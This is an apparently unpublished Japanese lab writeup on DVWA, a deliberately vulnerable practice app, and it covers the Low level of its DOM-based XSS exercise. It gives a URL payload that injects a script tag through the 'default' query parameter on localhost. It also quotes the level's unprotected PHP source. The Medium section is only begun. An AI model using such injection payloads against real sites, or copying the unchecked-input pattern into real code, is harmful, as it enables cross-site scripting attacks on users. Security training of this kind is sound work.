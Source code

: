 ```yaml
---
title: "dvwa Writeup"
emoji: ""
type: "tech"
topics: ["DVWA","Security"]
published: false
---
```


# XSS(DOM) Low

select要素で選択した言語名がクエリパラメータ『default』に入力値として与えられている。


## ペイロード
```
http://localhost/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(0)%3C/script%3E
```

## ソースコード
書いてある通り入力値のチェック等はなにもないのでなんでもできる状態
```php
<?php

# No protections, anything goes

?> 
```

# XSS(DOM) Medium
## ソースコード

